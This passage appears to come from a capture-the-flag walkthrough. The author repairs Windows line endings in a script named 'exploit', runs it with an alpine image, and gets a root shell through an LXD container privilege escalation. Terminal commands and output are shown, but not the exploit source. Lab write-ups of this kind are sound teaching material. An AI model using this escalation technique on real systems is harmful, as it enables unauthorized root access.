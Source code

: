 Unfortauntely, I was getting an error when I tried to do this. 

```
/usr/bin/env: ‘bash\r’: No such file or directory
```

Using google led me to this thread: https://stackoverflow.com/questions/29045140/env-bash-r-no-such-file-or-directory/53943650

And this solution: 

```
sed $'s/\r$//' ./exploit > ./exploit.Unix
```
I removed the old file using ``rm exploit`` and renamed the new script using ``mv exploit.Unix exploit``. I marked the new script as an executable using ``chmod +x exploit``. 

```
john@exploitable:~$ ./exploit 

Usage:
        [-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel
```

Awesome! It's all coming together (as they say)

Let's supply the filename

```
john@exploitable:~$ ./exploit -f alpine.tar.gz
Image imported with fingerprint: e9fd29615765f2128f4c64337688659b27420f0ae3421431a5bf4a49f225eb30
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| alpine | e9fd29615765 | no     | alpine v3.12 (20201007_23:02) | x86_64 | 3.06MB | Oct 8, 2020 at 3:25am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # 
```

```
~ # whoami
root
```

It worked!

Let's go the root directory to claim the prize ;o
